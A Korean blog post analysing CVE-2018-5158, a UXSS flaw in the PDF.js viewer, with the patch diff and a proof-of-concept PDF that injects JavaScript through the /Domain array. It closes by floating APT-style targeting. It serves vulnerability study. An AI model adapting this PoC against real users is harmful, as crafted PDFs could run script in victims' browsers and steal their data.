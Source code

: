 ```yaml
---
layout: post
title: "CVE-2018-5158 1-day Analysis"
excerpt: "PDF Viewer UXSS Trigger"
date: 2021-03-21
categories: [Web,CVE]
comments: true
---
```


<h3> 0x0. CVE-2018-5158</h3>


웹 익스텐션인 PDF뷰어(pdf.worker.js)를 통해서 트리거되는 UXSS 기법의 취약점

PDF뷰어에서 PostScript를 이용할 때, 인풋 파라미터 값을 어레이인지만 검증하고 직접적인 필터링을 하지 않음으로 발생

Safari 13.0.5와 Firefox 74.0 등등에서 작동



<h3> 0x1. 벡터</h3>


PDF Viewer는 PostScript Calculator 기능을 처리할 때,  자바스크립트로 변환하여 작업하는데 이때, PostScript 자체의 코드는 보안하지만 /Domain이나 /Range를 통해서 넘어오는 인풋값은 따로 검증하지 않음. 이를 통해서 PDF에 xss스크립트를 삽입하고 뷰어를 통하여 확인할 때 트리거 가능

```javascript
+      function toNumberArray(arr) {
+        if (!Array.isArray(arr)) {
+          return null;
+        }
+        var length = arr.length;
+        for (var i = 0; i < length; i++) {
+          if (typeof arr[i] !== 'number') {
+            var result = new Array(length);
+            for (var j = 0; j < length; j++) {
+              result[j] = +arr[j];
+            }
+            return result;
+          }
+        }
+        return arr;
+      }
       var PDFFunction = function PDFFunctionClosure() {
         var CONSTRUCT_SAMPLED = 0;
         var CONSTRUCT_INTERPOLATED = 2;
         var CONSTRUCT_STICHED = 3;
         var CONSTRUCT_POSTSCRIPT = 4;
         return {
           getSampleArray: function PDFFunction_getSampleArray(size, outputSize, bps, str) {
             var i, ii;
@@ -41747,43 +41763,43 @@
                 out[index] = [
                   arr[i],
                   arr[i + 1]
                 ];
                 ++index;
               }
               return out;
             }
-            var domain = dict.getArray('Domain');
-            var range = dict.getArray('Range');
+            var domain = toNumberArray(dict.getArray('Domain'));
+            var range = toNumberArray(dict.getArray('Range'));
             if (!domain || !range) {
               error('No domain or range');
             }
             var inputSize = domain.length / 2;
             var outputSize = range.length / 2;
             domain = toMultiArray(domain);
             range = toMultiArray(range);
-            var size = dict.get('Size');
+            var size = toNumberArray(dict.get('Size'));
             var bps = dict.get('BitsPerSample');
             var order = dict.get('Order') || 1;
             if (order !== 1) {
               // No description how cubic spline interpolation works in PDF32000:2008
               // As in poppler, ignoring order, linear interpolation may work as good
               info('No support for cubic spline interpolation: ' + order);
             }
-            var encode = dict.getArray('Encode');
+            var encode = toNumberArray(dict.getArray('Encode'));
             if (!encode) {
               encode = [];
               for (var i = 0; i < inputSize; ++i) {
-                encode.push(0);
-                encode.push(size[i] - 1);
-              }
-            }
-            encode = toMultiArray(encode);
-            var decode = dict.getArray('Decode');
+                encode.push([0, size[i] - 1]);
+              }
+            } else {
+              encode = toMultiArray(encode);
+            }
+            var decode = toNumberArray(dict.getArray('Decode'));
```

이를 근거로 배열에 페이로드를 첨부하여 사용자가 pdf 뷰어를 통해 이를 열람할 때 공격이 가능하다. 이건 diff라서 패치가 된 모습도 보여주는데 이전 - 버전을 보면 값에 대한 검증을 하지 않는 것 을 알 수 있다.



<h3>0x2. PoC</h3>


```javascript
/%PDF-1.4.1 0 obj.<<.  /FunctionType 4.  /Domain [(console.log("test")) 0].  /Range [0 0].  /Length 12.>>.stream.{.  0 add.}.endstream.endobj.2 0 obj.<<.  /Type /Catalog.  /Pages 3 0 R.>>.endobj.3 0 obj.<<.  /Type /Pages.  /Kids [6 0 R].  /Count 1.>>.endobj.4 0 obj.[ /Indexed.  [ /DeviceN.    [/Cyan /Black].    /DeviceCMYK.    1 0 R.  ].  1(123).].endobj.5 0 obj.<<.  /Type /XObject.  /Subtype /Image.  /Width 1.  /Height 1.  /ColorSpace 4 0 R.  /BitsPerComponent 8.  /Length 1.>>.stream.x.endstream.endobj.6 0 obj.<<.  /Type /Page.  /Parent 3 0 R.  /Resources.  <<.    /XObject << /Im5 5 0 R >>.  >>.  /MediaBox [0 0 100 100].  /Contents 7 0 R.>>.endobj.7 0 obj.<<.  /Length 100.>>.stream.  1  1  1  rg.  0  0  100 100 re  f.  BT.    /Para << /MCID 1 >>.    BDC.      /Im5 Do.    EMC.  ET.endstream.endobj.trailer.<<.  /Root 2 0 R.>>.startxref.%%EOF.
```

 이게 PoC.pdf의 hex내용이고 사실상 그냥 /Domain에 [(console.log("test")) 0]이다. 그 후에 조건 값을 맞춰주면서 트리거를 진행하면 된다.



<h3>0x3.ETC</h3>


추가적으로 PDF Viewer 는 CORS를 우회할 수 있는 방법이 많기 때문에 이를 더 연구해보면 좋을 것 같다. 또한 공격의 특성상 상대방이 해당 PDF파일을 열람을 해야만 공격이 가능해서 이를 연계하는 방법에 대해서도 구상이 필요하다.

이를 통해서 특정 타겟에 대한 xss 공격을 시행할 수 있어서 apt공격 같은 경우에도 사용이 될 것 같다. uxss사례들을 다양하게 공부해보면 좋을 것 같다.



<h3>0x4. Reference</h3>


https://nvd.nist.gov/vuln/detail/CVE-2018-5158

